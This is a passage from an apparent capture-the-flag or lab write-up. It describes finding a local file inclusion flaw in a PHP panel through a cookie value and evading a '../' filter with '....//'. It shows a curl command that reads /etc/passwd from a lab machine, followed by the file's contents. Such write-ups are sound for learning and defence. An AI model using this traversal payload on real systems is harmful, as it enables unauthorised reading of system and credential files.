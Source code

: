 This in turn finally triggered that intruder alert message I had seen earlier. 

![](/images/2014-07-15/12.png)

So the contents of super_secret_login_path_muhahaha/1 were being added into the panel.php. It took me a while to make the connection that the value 1 assigned to the intruder cookie was the actual file super_secret_login_path_muhahaha/1, and not some boolean value for "true". Once that clicked, I knew I had found a local file inclusion vulnerability. 

After a bit of trial and error, I realized that some filtering was taking place as the traditional ../../../../../etc/passwd wasn't working. As it turned out, ../ was being removed, so to evade this filter, I used ....// instead. Sure enough, I was able to read /etc/passwd using curl and passing it the file to read in the cookie: 

```
# curl -b "PHPSESSID=2bcc5t4g72043ronu46mtkmi32; intruder=....//....//....//....//....//....//etc/passwd" 172.16.229.151/super_secret_login_path_muhahaha/panel.php

<HTML>
.
.
.
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:104::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:104:108:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
george:x:1000:1000:george,,,:/home/george:/bin/bash
mysql:x:105:109:MySQL Server,,,:/nonexistent:/bin/false
jack:x:1001:1001::/home/jack:/bin/sh
milk_4_life:x:1002:1002::/home/milk_4_life:/bin/sh
developers:x:1003:1003::/home/developers:/bin/sh
bazza:x:1004:1004::/home/bazza:/bin/sh
oj:x:1005:1005::/home/oj:/bin/sh
</HTML>
```